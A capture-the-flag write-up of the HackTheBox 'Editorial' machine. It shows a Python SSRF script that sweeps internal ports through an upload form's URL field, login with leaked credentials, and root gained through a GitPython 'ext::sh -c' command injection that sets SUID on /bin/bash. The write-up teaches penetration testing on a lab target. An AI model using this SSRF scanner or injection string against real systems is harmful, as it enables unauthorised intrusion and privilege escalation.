 ```yaml
---
title: Editorial Hackthebox
date: 13-7-2024
categories: [hackthebox,writeup] 
tags: [Gitpython,scripting,SSRF]
---
```


# Editorial

![Editorial](/assets/img/editorial/editorial.jpeg)

Editorial is a Season 5 machine from Week 9 on HackTheBox. It is considered an easy box, but the enumeration phase requires careful attention. The host has two open ports, one of which is an HTTP port. We discovered a file upload function with a book URL input that connects to our Python web server. This function allows us to identify an internal port. After gaining initial access, we found a .git repository containing user credentials. A Python script can be executed with sudo permissions by that user, leading to root access via an exploit found in the Python script's library.


## **Recon**

We start with an NMAP scan.

```bash
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.9p1 Ubuntu 3ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 0d:ed:b2:9c:e2:53:fb:d4:c8:c1:19:6e:75:80:d8:64 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMApl7gtas1JLYVJ1BwP3Kpc6oXk6sp2JyCHM37ULGN+DRZ4kw2BBqO/yozkui+j1Yma1wnYsxv0oVYhjGeJavM=
|   256 0f:b9:a7:51:0e:00:d5:7b:5b:7c:5f:bf:2b:ed:53:a0 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIMXtxiT4ZZTGZX4222Zer7f/kAWwdCWM/rGzRrGVZhYx
80/tcp open  http    syn-ack nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://editorial.htb
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

From the web application, we find a file upload function. The highlighted part in the image below is the injection point where we can access the internal port.

![alt text](/assets/img/editorial/image-1.png)

The URL input connects to our Python web server once supplied, as shown in the screenshot below of my local IP.

![alt text](/assets/img/editorial/image-2.png)

I tried various file types to upload to the server. However, the application does not allow access to the uploaded files. Using Burp Suite, we can see that an image is returned from the localhost URL, allowing us to enumerate the internal ports.

![alt text](/assets/img/editorial/image-4.png)

Craft a script to make it easier to enumerate each port and the response.

```python
import requests

def file_upload(ports):
    url = "http://editorial.htb/upload-cover"
    headers = {
        "Host": "editorial.htb",
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0",
        "Accept": "*/*",
        "Accept-Language": "en-US,en;q=0.5",
        "Accept-Encoding": "gzip, deflate, br",
        "Content-Type": "multipart/form-data; boundary=---------------------------2558739193374546790339287871",
        "Origin": "http://editorial.htb",
        "Connection": "close",
        "Referer": "http://editorial.htb/upload"
    }
    data = (
        "-----------------------------2558739193374546790339287871\r\n"
        'Content-Disposition: form-data; name="bookurl"\r\n\r\n'
        f"http://127.0.0.1:{ports}/\r\n"
        "-----------------------------2558739193374546790339287871\r\n"
        'Content-Disposition: form-data; name="bookfile"; filename="test.txt"\r\n'
        "Content-Type: text/plain\r\n\r\n"
        "test content\r\n"
        "-----------------------------2558739193374546790339287871--\r\n"
    )

    x = requests.post(url,headers=headers,data=data)
    return x.status_code, x.text

port = range(4000,5500)
for ports in port:
    status_code, text = file_upload(ports)
    if text not in "/static/images/unsplash_photo_1630734277837_ebe62757b6e0.jpeg":
        print(f"[+] Port {ports} : Status code = {status_code} & Response = {text}")
    else:
        print(f"[+] Port {ports}: Same response")

```

The result show that the response of the port 5000 is different from the other port. It gave us a new endpoint we can look at it.

![alt text](/assets/img/editorial/image-7.png)

We explore the new endpoint using Burp Suite.

![alt text](/assets/img/editorial/image-8.png)

The content of "/api/latest/metadata/messages/authors" endpoint reveals credentials.

![alt text](/assets/img/editorial/image-9.png)

Using the credentials, we SSH into the server.

![alt text](/assets/img/editorial/image-10.png)

## dev Shell

In the dev home directory, we find a .git repo in the /apps directory. We view the git log for the repo.

![alt text](/assets/img/editorial/image-11.png)

Using the "git show" command, we see the content of the git log.

![alt text](/assets/img/editorial/image-12.png)

## prod shell

Running sudo -l shows that our current user can run a Python script as root.

![alt text](/assets/img/editorial/image-15.png)

The result shows that a python script can be run as root. We can review the python script and look for any information that we can use.

```python
#!/usr/bin/python3

import os
import sys
from git import Repo

os.chdir('/opt/internal_apps/clone_changes')

url_to_clone = sys.argv[1]

r = Repo.init('', bare=True)
r.clone_from(url_to_clone, 'new_changes', multi_options=["-c protocol.ext.allow=always"])
```

We discover an RCE vulnerability in the git library [gitPython](https://security.snyk.io/vuln/SNYK-PYTHON-GITPYTHON-3113858). Checking the git version with **pip list** reveals the installed library.

![alt text](/assets/img/editorial/image-16.png)

Exploiting this vulnerability, we craft a malicious command to grant /bin/bash file SUID permission.

![alt text](/assets/img/editorial/image-14.png)

The command used:

```bash

sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c chmod% +s% /bin/bash'
```


Thank you for reading.
